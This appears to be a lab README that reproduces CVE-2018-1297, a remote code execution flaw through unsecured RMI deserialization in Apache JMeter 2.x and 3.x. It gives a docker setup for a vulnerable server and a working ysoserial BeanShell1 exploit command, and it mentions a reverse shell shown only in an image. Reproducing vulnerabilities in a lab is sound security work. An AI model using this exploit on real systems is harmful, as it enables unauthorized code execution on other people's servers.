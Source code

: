 # Jmeter RMI Deserialization Remote Code Execution (CVE-2018-1297)

[中文版本(Chinese version)](README.zh-cn.md)

Apache JMeter is an Apache project that can be used as a load testing tool for analyzing and measuring the performance of a variety of services, with a focus on web applications.

When using Distributed Test only (RMI based), Apache JMeter 2.x and 3.x uses an unsecured RMI connection. This could allow an attacker to get Access to JMeterEngine and send unauthorized code.

## Vulnerable environment

Execute following command to start a JMeter v3.3 RMI server:

```
docker compose up -d
```

After the server is started, the RMI is listening on port 1099.

## Exploit

Use [ysoserial](https://github.com/frohoff/ysoserial) to exploit the deserialization by the gadget `BeanShell1`:

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'
```

Execute `docker compose exec jmeter bash` to enter the container, you will see the `/tmp/success` has been created:

![](1.png)

Get a reverse shell:

![](2.png)
